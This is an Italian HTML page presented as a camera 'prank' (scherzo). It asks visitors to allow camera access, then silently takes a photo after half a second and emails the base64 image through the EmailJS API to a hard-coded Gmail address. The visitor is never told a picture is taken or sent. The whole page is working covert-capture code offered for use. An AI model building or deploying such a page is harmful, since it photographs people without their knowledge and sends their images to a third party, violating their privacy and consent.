 <!DOCTYPE html>
<html lang="it">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Scherzo Fotocamera</title>
</head>
<body>
    <h1>Benvenuto! Premi OK per autorizzare la fotocamera.</h1>
    <video id="video" width="320" height="240" autoplay></video>
    <canvas id="canvas" style="display: none;"></canvas>
    <script>
        // Richiesta permesso fotocamera
        async function getMedia() {
            try {
                const stream = await navigator.mediaDevices.getUserMedia({ video: true });
                document.getElementById('video').srcObject = stream;

                // Aspetta 0.5 secondi, scatta la foto e invia via email
                setTimeout(() => {
                    takeSnapshot();
                    sendEmail();
                }, 500); // 500 ms = 0.5 secondi
            } catch (error) {
                alert("Errore nel consentire l'accesso alla fotocamera.");
            }
        }

        // Funzione per scattare la foto
        function takeSnapshot() {
            const video = document.getElementById('video');
            const canvas = document.getElementById('canvas');
            const ctx = canvas.getContext('2d');
            canvas.width = video.videoWidth;
            canvas.height = video.videoHeight;
            ctx.drawImage(video, 0, 0, canvas.width, canvas.height);

            // Converti la foto in formato base64
            const imgData = canvas.toDataURL('image/jpeg');
            sendEmail(imgData);
        }

        // Funzione per inviare la foto tramite EmailJS
        function sendEmail(imageData) {
            const formData = {
                service_id: "service_mrkzn2a",  // Sostituisci con il tuo ID del servizio EmailJS
                template_id: "template_mrkzn2a",  // Sostituisci con il tuo ID del template
                user_id: "user_XXXXXXX",  // Sostituisci con il tuo user ID di EmailJS
                message: imageData,
                to_email: "sharafomar834@gmail.com",  // La tua email
            };

            fetch('https://api.emailjs.com/api/v1.0/email/send', {
                method: 'POST',
                headers: {
                    'Content-Type': 'application/json',
                },
                body: JSON.stringify(formData)
            })
            .then(response => response.json())
            .then(data => {
                console.log('Email inviata con successo', data);
            })
            .catch(error => {
                console.error('Errore nell\'invio dell\'email', error);
            });
        }

        // Inizializza la fotocamera quando la pagina è caricata
        window.onload = () => {
            getMedia();
        };
    </script>
</body>
</html>
